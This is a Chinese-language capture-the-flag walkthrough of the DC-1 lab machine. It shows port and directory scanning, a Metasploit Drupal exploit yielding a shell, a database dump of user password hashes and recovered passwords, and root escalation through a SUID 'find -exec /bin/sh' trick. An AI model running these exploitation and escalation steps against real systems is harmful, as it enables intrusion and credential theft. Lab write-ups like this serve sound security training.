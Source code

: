 # DC1靶场实战

> 将靶场网络模式改为桥接模式

- 使用御剑扫描端口
- ![image-20240915190420050](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240915190420050.png)

- 这里可以确定靶场ip为`192.168.157.152`开放了`22`和`80`端口
- 访问一下80端口
- ![image-20240915190624714](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240915190624714.png)

- 这里发现需要`登录`,我们尝试爆破web目录看看

<img src="C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240915191016278.png" alt="image-20240915191016278" style="zoom: 25%;" />

- 这里扫到`/user/`和`/robot.txt`两个目录,访问来看一下
- ![image-20240915191144197](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240915191144197.png)

- 注册一个账户试试,发现不行,尝试爆破也爆破不出来

- 使用`msfconsole`

- ```cmd
  msf6 > search drupal
  ```

  

![image-20240915204022259](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240915204022259.png)

- ```cmd
  #这里测试发现只有2可以
  msf6 > use 2
  msf6 > set rhost 192.168.157.152
  msf6 > run
  
  #如果成功在,输入
  meterpreter > shell
  ```

  ![image-20240915204208372](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240915204208372.png)

![image-20240915204357038](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240915204357038.png)

```cmd
//看看flag1.txt有什么信息
cat flag1.txt
```

![image-20240915204500781](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240915204500781.png)

- 大致意思是让我去找配置文件看看,一个一个的翻,最终在`sites`下的`default`下找到部分php文件,看看

![image-20240915204723801](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240915204723801.png)

![image-20240915205108359](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240915205108359.png)

```cmd
#为了方便查看数据,使用工具
python -c "import pty;pty.spawn('/bin/bash')"
```

![image-20240915210149822](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240915210149822.png)

```cmd
#连接数据库
mysql -u dbuser -p

+--------------------+
| Database           |
+--------------------+
| information_schema |
| drupaldb           |
+--------------------+

+-----------------------------+
| Tables_in_drupaldb          |
+-----------------------------+
| actions                     |
| authmap                     |
| batch                       |
| block                       |
| block_custom                |
| block_node_type             |
| block_role                  |
| blocked_ips                 |
| cache                       |
| cache_block                 |
| cache_bootstrap             |
| cache_field                 |
| cache_filter                |
| cache_form                  |
| cache_image                 |
| cache_menu                  |
| cache_page                  |
| cache_path                  |
| cache_update                |
| cache_views                 |
| cache_views_data            |
| comment                     |
| ctools_css_cache            |
| ctools_object_cache         |
| date_format_locale          |
| date_format_type            |
| date_formats                |
| field_config                |
| field_config_instance       |
| field_data_body             |
| field_data_comment_body     |
| field_data_field_image      |
| field_data_field_tags       |
| field_revision_body         |
| field_revision_comment_body |
| field_revision_field_image  |
| field_revision_field_tags   |
| file_managed                |
| file_usage                  |
| filter                      |
| filter_format               |
| flood                       |
| history                     |
| image_effects               |
| image_styles                |
| menu_custom                 |
| menu_links                  |
| menu_router                 |
| node                        |
| node_access                 |
| node_comment_statistics     |
| node_revision               |
| node_type                   |
| queue                       |
| rdf_mapping                 |
| registry                    |
| registry_file               |
| role                        |
| role_permission             |
| search_dataset              |
| search_index                |
| search_node_links           |
| search_total                |
| semaphore                   |
| sequences                   |
| sessions                    |
| shortcut_set                |
| shortcut_set_users          |
| system                      |
| taxonomy_index              |
| taxonomy_term_data          |
| taxonomy_term_hierarchy     |
| taxonomy_vocabulary         |
| url_alias                   |
| users                       |
| users_roles                 |
| variable                    |
| views_display               |
| views_view                  |
| watchdog                    |
+-----------------------------+

```

user表看起来太乱了,这是一个用户信息表的整理结果：

| UID  | Name       | Password                                                | Email             | Theme | Signature     | Signature Format | Created    | Access     | Login             | Status | Timezone            | Language | Picture | Init              | Data |
| ---- | ---------- | ------------------------------------------------------- | ----------------- | ----- | ------------- | ---------------- | ---------- | ---------- | ----------------- | ------ | ------------------- | -------- | ------- | ----------------- | ---- |
| 0    |            |                                                         |                   |       |               |                  |            | 0          | 0                 | 0      | NULL                | NULL     | 0       | NULL              | NULL |
| 1    | admin      | $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR | admin@example.com |       |               |                  | 1550581826 | 1550583852 | admin@example.com | 1      | Australia/Melbourne | NULL     | 0       | admin@example.com | b:0; |
| 2    | Fred       | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg | fred@example.org  |       | filtered_html |                  | 1550581952 | 1550582225 | fred@example.org  | 1      | Australia/Melbourne | NULL     | 0       | fred@example.org  | b:0; |
| 3    | 2493770457 | $S$DnZNZu4yy0/kIUleNpqOnpbU0M0vZcaJW/OF3tRogcHZzWdefmpt | 2493770457@qq.com |       | filtered_html |                  | 1726427544 | 0          | 2493770457@qq.com | 0      | Australia/Melbourne | NULL     | 0       | 2493770457@qq.com | NULL |

这是表格的整理信息，包含了用户 ID、名称、密码、邮箱等信息。![image-20240915212959716](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240915212959716.png)



![image-20240915212845109](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240915212845109.png)

```cmd
//账号密码
admin 53cr3t
Fred MyPassword
```

![image-20240915214821230](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240915214821230.png)

```cmd
find flag1.txt -exec whoami \; //查看文件用户权限
find flag1.txt -exec '/bin/sh' \; //以创建者身份回弹shell
find / -name "*flag*"	//找到flag相关文件
```

![image-20240915220435553](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240915220435553.png)

![image-20240915220605453](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240915220605453.png)

```cmd
cat /home/flag4/flag4.txt
```

![image-20240915220709969](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240915220709969.png)

![image-20240915222332372](./assets/image-20240915222332372.png)

```cmd
cat /root/thefinalflag.txt
```

![image-20240915220742240](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240915220742240.png)
